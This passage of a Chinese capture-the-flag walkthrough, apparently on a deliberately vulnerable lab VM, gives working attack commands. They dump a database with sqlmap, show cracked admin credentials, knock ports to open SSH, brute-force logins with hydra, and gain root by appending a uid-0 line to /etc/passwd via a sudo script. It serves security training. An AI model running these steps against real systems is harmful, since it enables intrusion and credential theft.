sqlmap -r ./postsql.txt --batch --dbs -D users --tables
```

这里拿到表，发现就一个  
  
那么就接着拿到字段

```
sqlmap -r ./postsql.txt --batch --dbs -D users --tables -T UserDetails
```

  
选一下要看的字段

```
sqlmap -r ./postsql.txt --batch --dbs -D users --tables -T UserDetails --columns -C username,password --dump
```

  
这里发现没有我们想要的，才想到有一个 Staff 库  
  
然后去看看这个库里面有什么

```
sqlmap -r ./postsql.txt --batch --dbs -D Staff --tables
```

  
再去看看这个Users的表吧，有这几个字段

```
sqlmap -r ./postsql.txt --batch --dbs -D Staff --tables -T Users --column
```

  
然后去看看这个password和username 里面有什么

```
sqlmap -r ./postsql.txt --batch --dbs -D Staff --tables -T Users --column -C Username,Password --dump
```

  
这里就去解密一下  
  
这里就拿到了admin账户的账户密码了

```
admin
transorbital1
```

  
这里就成功的登录上面了，那就看看后台有什么吧  
  
这里发现写着文件不存在，而且文件网站是php写的，所以很可能是文件包含  
  
这里发现确实是可以成功的包含了，那么就可以用日志污染来写shell，但是发现找不到默认的日志文件的路径，也有可能是禁止访问掉了  
这里我们再回想到一开始信息收集的时候啊，22端口是不能用的，，但是呢，是因为开启了knockd服务，既然可以文件包含，那么我们就可以去看一下这个的配置文件了  
  
可以看到这里可以进行一个利用nmap敲门的操作，从而打开22端口的连接。

```
nmap -p- 192.168.193.144 7469
nmap -p- 192.168.193.144 8475
nmap -p- 192.168.193.144 9842
```

  
看到ssh服务已经开启了，这里就利用 hydra 进行爆破了得到了三个账户密码，这个时候就可以ssh连接了  
  
这三个账户来回尝试以后发现没有 sudo 授权，find 也找不到内容。最后看了一下home，里面所有的内容，发现在janitor用户的目录下有一个隐藏的文件夹  
  
然后在下下面可以看到一个密码文件，然后看一下，再去爆破一下内容，发现能够多爆破出来一个账户  
  
那么就登上这个账户看看  
  
这里就可以看到这个账户是有一个root执行的，那就来看看这个文件是怎么回事  
  
在来到这个目录下面以后发现，是有一个这个脚本的，发现这个脚本的意思就是可以附加到文件中，那么这里就可以去写 passwd 文件了。  
这里是利用 openssl去生成一个密码

```
openssl passwd -1 -salt dc 123456
```

然后把这个得到的密码写到一个文件中

```
echo 'dc:$1$dc$5uDk4oYnRiBs0fFGlcRwy.:0:0:root:/bin/bash' >> /tmp/dc
```

最后再去用那个有sudo权限的脚本完成文件的添加

```
sudo /opt/devstuff/dist/test/test /tmp/dc /etc/passwd
```

然后就可以去切换到dc用户了，它是root权限  

